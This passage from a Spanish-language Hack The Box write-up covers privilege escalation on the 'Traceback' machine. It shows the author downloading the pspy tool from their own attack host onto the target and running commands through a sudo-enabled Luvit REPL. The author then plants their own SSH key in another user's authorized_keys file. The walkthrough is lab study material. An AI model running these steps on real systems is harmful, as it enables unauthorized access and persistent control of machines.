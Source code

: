 


## Escalamiento de privilegios

Descargamos y luego transferimos a la máquina la herramienta [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64) que nos sirve para revisar los procesos y tareas que están ejecutando en segundo plano.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64
--2020-06-04--  https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.181 - - [04/Jun/2020 19:29:08] "GET /pspy64 HTTP/1.1" 200 -

webadmin@traceback:~$ wget http://10.10.14.21/pspy64
--2020-06-04 17:30:03--  http://10.10.14.21/pspy64
Connecting to 10.10.14.21:80... connected.
```

Damos permisos de ejecución al archivo `pspy64` 

```bash
webadmin@traceback:~$ chmod +x pspy64
```

Ejecutamos el script `pspy64` desde el usuario de sysadmin, para lo cual debemos ejecutar el siguiente comando de la consola de LUA 

```bash
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit                           
Welcome to the Luvit repl!          
> os.execute("./pspy64")                                                                                                               
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events 
```

Revisando la herramienta `pspy64` observamos que hay un archivo en `/etc/update-motd.d/` que se ejecuta de manera recurrente. 

```bash
2020/06/04 17:40:31 CMD: UID=0    PID=2099   | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```

Al igual que hicimos con el usuario webadmin, vamos a poner la llave ssh en el directorio de llaves autorizadas del usuario sysadmin mediante el siguiente comando

```bash
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("echo '<llave-rsa>' > /home/sysadmin/.ssh/authorized_keys") 
true    'exit'  0
```
